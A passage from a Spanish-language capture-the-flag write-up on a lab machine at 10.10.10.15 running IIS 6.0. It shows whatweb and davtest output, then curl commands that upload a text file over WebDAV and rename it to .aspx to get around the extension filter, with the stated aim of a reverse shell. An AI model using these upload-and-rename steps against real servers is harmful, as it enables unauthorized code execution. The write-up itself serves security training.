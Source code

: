 Como se puede observar, la máquina solo tiene el puerto **80** abierto con el servicio *http*.

Para poder ver las tecnologías que usa la web usaremos `whatweb`:

```bash
whatweb http://10.10.10.15

http://10.10.10.15 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```
<br/>

La máquina corre un `Microsoft-ISS 6.0`. Si buscamos en internet podemos ver que es vulnerable. Este servicio posee un WebDav al cual podemos subir archivos. Si subimos un archivo `.aspx` podremos ejecutar código en el servidor y obtener una *reverse shell*. 

Para poder ver que archivos podemos subir usaremos `davtest`:

```bash
davtest -url http://10.10.10.15

********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
 Sending test files
PUT	cgi	FAIL
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_vkjBEqIPKM/davtest_vkjBEqIPKM.pl
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_vkjBEqIPKM/davtest_vkjBEqIPKM.jsp
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_vkjBEqIPKM/davtest_vkjBEqIPKM.html
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_vkjBEqIPKM/davtest_vkjBEqIPKM.php
PUT	aspx	FAIL
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_vkjBEqIPKM/davtest_vkjBEqIPKM.txt
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_vkjBEqIPKM/davtest_vkjBEqIPKM.jhtml
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_vkjBEqIPKM/davtest_vkjBEqIPKM.cfm
PUT	asp	FAIL
PUT	shtml	FAIL
********************************************************
```
<br/>

Según `davtest` no podemos subir archivos `.aspx` pero sí `.txt`, así que haremos la prueba con `curl`:

```bash
echo 'hola' > hola.txt
curl -X PUT http://10.10.10.15/hola.txt -d @hola.txt
```

Si visitamos `http://10.10.10.15/hola.txt` podremos ver el contenido.

Ahora podemos intentar cambiar la extensión del archivo a `.aspx`:

```bash
curl -X COPY -H "Destination: http://10.10.10.15/hola.aspx" http://10.10.10.15/hola.txt
```
<br/>
